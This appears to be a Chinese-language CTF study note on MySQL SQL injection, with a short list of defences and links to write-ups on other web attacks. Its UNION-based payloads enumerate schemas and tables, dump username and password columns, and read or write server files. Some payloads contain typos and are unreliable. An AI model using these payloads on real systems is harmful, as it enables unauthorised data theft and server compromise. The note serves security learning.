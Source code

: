 #### 3.1 SQL注入

[Sql注入基本思路]: https://www.cnblogs.com/20175211lyz/p/11210936.html
[ SQL注入拓展]: https://www.cnblogs.com/20175211lyz/p/11204022.html
[限制条件下获取表名、无列名注入]: https://www.cnblogs.com/20175211lyz/p/12358725.html



1. ##### 数据库类型：MYSQL

   1. 发现数据库有对应关系
   2. ?id=1 order by 正确与错误临界点; //判断注入，猜列名数量（字段数） 
   3. ?id=-1 union select 1,2,3;  //报错显示
   4. 信息收集
      1. 数据库版本：version()
      2. 数据库名字：database()
      3. 数据库用户：user()
      4. 操作系统：@@version_compile_os
      5. 在mysql5.0以上版本中，mysql存在一一个自带数据库名为information_ schema, 它是一个存储记录有所有数据库名，表名，列名的数据库，也相当于可以通过查询它获取指定数据库下面的表名或列名信息。
         ```
         1. information_schema.tables：记录所有表名信息的表
         2. information_schema.columns：记录所有列名信息的表
         3. table_schema:数据库名
         4. table_name:表名
         5. column_name:列名
         ```
      6. ?id=-1 union select 1,database(),version(), //替换2,3
      7. ?id=-1 union select 1,group_concat(schema_name),2 from information_schemata
      8. ?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='上面查的数据库名字'   //替换2，不换3 查数据库下所有表名信息
      9. ?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='上面查的表名字'   //替换2，不换3 查上诉表名下所有列名信息
      10. ?id=-1 union select 1,group_concat(username),group_concat(password) from security.users  //显示的数字替换成自己想要的列数据
      11. ?id=-1 union select 1,2,group_concat(concat_ws(A,'-',B)) from security.users  //拼接AB字符串爆库

2. ##### 高权限注入及低权限注入
   
   1. 跨库查询及应用思路：information_schema表特征，记录库名，表名，列名对应表
   2. 获取所有数据**库**名：?id=-1 union select 1,group_concat(schem_name),3 from information_schema.schemata
   3. 获取指定xx_schema数据库**表**名：?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='xx_schema'
   4. 获取指定xx_schema库下xx_table表的**列**名信息：?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='xx_schema' and table_schema='xx_table'
   5. 获取指定数据：?id=-1 union select 1,group_concat(user),password from xx_schema.xx_table
   6. 低版本：字典暴力
   
3. ##### 文件读写操作
   
   1. load_file()：select loadfile('c:/xx.txt')
   2. into outfile 或 into dumpinfo参数：select x into outfile 'd:/xx.txt'
   3. 路径获取方法：报错显示，遗留文件，漏洞报错，平台配置文件，爆破等
   4. 魔术引号：编码或宽字节注入
   5. 防注入：
      1. 自带：魔术引号
      2. 内置函数：is_int
      3. 自定义关键字：select
      4. WAF
   

   [vulhub启动]: https://vulhub.org/#/docs/run/
[^CTF文件上传]: https://www.cnblogs.com/20175211lyz/p/10989689.html
[CTF XSS]: https://www.cnblogs.com/20175211lyz/p/12207467.html
[CTF SSRF(服务器端伪造请求)]: https://www.cnblogs.com/20175211lyz/p/11408583.html
[命令执行写webshell]: https://mp.weixin.qq.com/s/cSaA6HUX0_j7KzBzAAoE0Q
[CTF RCE与命令注入]: https://www.cnblogs.com/20175211lyz/p/11396392.html
[CTF 文件包含]: https://www.cnblogs.com/20175211lyz/p/10989816.html
[CTF PHP反序列化]: https://blog.csdn.net/solitudi/article/details/113588692?spm=1001.2014.3001.5502
[CTF PHP反序列化]: https://www.cnblogs.com/20175211lyz/p/11403397.html
[POP链]: https://www.cnblogs.com/20175211lyz/p/12364199.html
[CTF XXE]: cnblogs.com/20175211lyz/p/11413335.html	"里面有详细介绍"
[CTF SSTI(服务器模板注入)]: https://www.cnblogs.com/20175211lyz/p/11425368.html